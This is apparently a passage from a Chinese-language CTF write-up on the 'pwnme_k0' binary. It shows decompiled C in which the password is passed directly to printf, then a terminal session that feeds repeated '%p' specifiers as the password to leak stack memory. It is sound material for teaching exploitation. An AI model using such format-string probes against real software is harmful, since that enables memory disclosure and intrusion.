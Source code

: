```c
//选择函数
int __fastcall sub_400D2B(__int64 s, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6, __int64 sa, __int64 a8, __int64 a9, __int64 a10, __int64 a11)
{
  char v11; // di
  int v12; // eax
  __int64 v13; // rdx
  __int64 v14; // rcx
  __int64 v15; // r8
  __int64 v16; // r9

  v11 = (char)stdin;
  setbuf(stdin, 0LL);
  while ( 1 )
  {
    v12 = sub_400A75();
    switch ( v12 )
    {
      case 2:
        sub_400B41((__int64)&sa, 0LL, v13, v14, v15, v16, sa, a8, a9, a10, a11);//修改
        break;
      case 3:
        return sub_400D1A();//退出
      case 1:
        sub_400B07(v11, 0LL, v13, v14, v15, v16, sa, a8, a9);//显示
        break;
      default:
        puts("error options");
        fflush(stdout);
        break;
    }
    v11 = (char)stdout;
    fflush(stdout);
  }
}
//显示信息函数
int __fastcall sub_400B07(char format, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6, char formata, __int64 a8, __int64 a9)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf(&formata, "Welc0me to sangebaimao!\n");
  return printf((const char *)&a9 + 4);   //明显的字符串调用讨论，参数和password名称一致
}
```



```shell
//尝试针对密码这边进程格式话字符串利用
toor@ubuntu:~/Desktop$ ./pwnme_k0 
**********************************************
*                                            *
*Welcome to sangebaimao,Pwnn me and have fun!*
*                                            *
**********************************************
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
```